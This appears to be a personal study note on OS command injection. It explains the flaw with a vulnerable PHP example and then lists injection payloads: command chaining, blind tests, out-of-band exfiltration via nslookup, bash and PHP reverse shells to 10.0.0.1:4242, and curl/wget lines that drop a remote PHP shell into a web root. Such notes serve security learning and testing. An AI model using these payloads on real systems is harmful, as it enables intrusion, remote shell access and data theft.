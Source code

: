 #CommandInjection  

## What is it?

Command injection is a vulnerability that allows an attacker to manipulate an application to execute arbitrary system commands on the server. This occurs when an application passes unsafe data, often user input, to a system shell.

**A simple example**

A vulnerable web application might take a path from a query parameter and use it to read a file, like so:

```
$file = $_GET['file'];
system("cat /var/www/html/$file");
```

If an attacker uses a payload such as `; ls -la` in the `file` parameter, they can make the application execute an additional command that lists all files in the current directory.

The server then executes the `cat` command and the `ls` command and the attacker receives a list of all files in the current directory.

Command injection can often lead to:
- Remote code execution
- Denial of Service
- Data breach
- Privilege escalation

## Exploitation

Basic command chaining

```
; ls -la
```

Using logic operators

```
&& ls -la
```

Commenting out the rest of a command

```
; ls -la #
```

Using a pipe for command chaining

```
| ls -la
```

Testing for blind injection

```
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

Out-of-band testing

```
& nslookup webhook.site/<id>?`whoami` &
```

Example from lab (can replace `whoami` with whatever command):

```
; whoami; asd
```

So for reverse shell (bash tcp):

```
; /bin/bash -i >& /dev/tcp/10.0.0.1/4242 0>&1; asd
```

And a PHP reverse shell:

```
; php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ;asd

https://website.com && curl 10.0.0.1:4242/rev.php > /var/www/html/rev.php

https://website.com \n wget 10.0.0.1:4242/rev.php
```


---
Basically takes user input and injects it as code.

Example:
- `php -a`
	- `$userInput = 'whoami';
	- `system($userInput);`

Try to avoid `eval` and `system` when coding for an application.
